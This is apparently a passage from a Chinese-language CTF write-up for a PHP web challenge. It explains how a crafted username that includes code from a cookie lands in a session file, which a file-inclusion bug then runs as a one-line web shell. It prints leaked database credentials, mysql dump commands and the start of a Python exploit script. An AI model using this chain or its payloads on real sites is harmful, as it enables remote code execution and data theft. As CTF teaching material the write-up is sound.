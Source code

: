 ```php
$log_content='['.date("h:i:sa").' GMT+7] gave '.$_POST['pet'].' to player '.search_name_by_mail($conn,$_POST['email']);
```

而其中的`search_name_by_mail($conn,$_POST['email']` 正是用户名``<?=include"$_COOKIE[a]`` 

所以包含session文件就可以把Cookie里的变量a 包含进来，而a又是command.txt解码后的结果，也就是一句话木马。这时就可以以f为密码传入任意命令了。

- 读到数据库配置文件

![1532073478518](1532073478518.png)

- 读到配置文件dbconnect.php 

```php
<?php
	define('DBHOST', 'localhost');
	define('DBUSER', 'mapl_story_user');
	define('DBPASS', 'tsu_tsu_tsu_tsu'); 
	define('DBNAME', 'mapl_story');
	$conn = mysqli_connect(DBHOST,DBUSER,DBPASS,DBNAME);
	if ( !$conn ) {
		die("Connection failed : " . mysql_error());
	}
```

- 然后执行命令

```mysql
echo 'SELECT * FROM mapl_config;'| mysql -umapl_story_user -ptsu_tsu_tsu_tsu mapl_story
或
mysql -e'select * from mapl_config' -umapl_story_user -ptsu_tsu_tsu_tsu mapl_story
```

![1532073884330](1532073884330.png)

### 脚本

也可参考脚本理清利用过程：

```python
# -*- coding: utf-8 -*-
# by https://findneo.github.io/

import requests, hashlib, base64


def change_name(character_name):
    payload = dict(name=character_name, submit='Edit')
    r = requests.post(url + "?page=setting.php", cookies=cookie, data=payload)


def give_pet(user_email):
    payload = dict(pet="babydragon", email=user_email, submit="Give")
    r = requests.post(url + '?page=admin.php', cookies=cookie, data=payload)
    return r.content


def command(cmd="testcmd"):
    payload = dict(command=cmd, submit="Send")
    r = requests.post(
        url + "?page=character.php", cookies=cookie, data=payload)


def shell(cmd='uname'):
    payload = dict(
        page="/var/lib/php/sessions/sess_" + cookie['PHPSESSID'], f=cmd)
```